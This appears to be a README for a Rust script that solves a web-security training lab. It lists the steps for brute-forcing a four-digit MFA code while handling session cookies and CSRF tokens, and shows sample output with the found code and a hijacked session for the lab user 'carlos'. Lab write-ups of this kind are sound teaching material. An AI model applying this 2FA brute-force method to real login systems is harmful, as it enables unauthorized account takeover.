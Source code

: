 # Hack Steps

1. GET /login page and extract the session from cookie header and csrf token from the body
2. POST /login with valid credentials, extracted session and the csrf token
3. Obtain the new session
4. GET /login2 with the new session
5. Extract csrf token from the body of /login2
6. POST the mfa-code with the new session and the new extracted csrf token
7. Repeat the process with all possbile numbers 

# Run Script

1. Change the URL of the lab
2. Start script

```
~$ cargo run
```

# Expected Output

```
[#] Brute forcing the mfa-code of carlos..
[*] Elapsed: 30 minutes || Failed: 3 || (6034/10000) 1276 => Incorrect
✅ Correct code: 0345
✅ New session: HY4DM0kZP9d8iT1xyYflQ24blyH6y8Qx
Use this session in your browser to login as carlos

✅ Finished in: 30 minutes

[!] Failed codes count: 3 
[!] Failed codes: ["8136", "0137", "2134"]
```
